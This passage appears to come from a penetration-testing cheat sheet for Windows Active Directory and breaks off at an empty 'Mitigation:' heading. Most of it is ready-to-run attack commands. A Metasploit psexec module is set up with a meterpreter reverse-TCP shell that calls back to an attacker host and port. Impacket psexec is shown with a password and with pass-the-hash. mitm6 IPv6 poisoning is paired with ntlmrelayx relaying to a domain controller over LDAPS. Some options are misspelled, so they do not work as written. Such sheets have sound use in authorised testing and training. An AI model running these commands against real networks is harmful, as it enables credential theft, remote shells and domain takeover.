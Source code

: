 [Impacket Github link](https://github.com/SecureAuthCorp/impacket)

metasploit
```
use exploit/windows/smb/psexec
set RHOST ip
set SMBDOMAIN domain.name
set SMBUSER username
set SMB PASS password
set PAYLOAD windows/x64/meterpreter/reverese_tcp
set LHOST ip
set LPORT port
run
```

manual
```
# authenticate with password
psexec.py domain.name/username:password@ip

# authenticate with pass the hash
psexec.py domain.name/username@ip -hashes hash
```

### mitm6

[mitm6 Github link](https://github.com/fox-it/mitm6)

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

mitm6
```
mitm6 -d domain.name
```

ntlmrelayx
```
ntlmrelayx.py -6 -t ldaps://dc-ip -wh fake.domain.name -l lootme
```

[Combining NTLM Relays and Kerberos Delegation](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)

Mitigation:
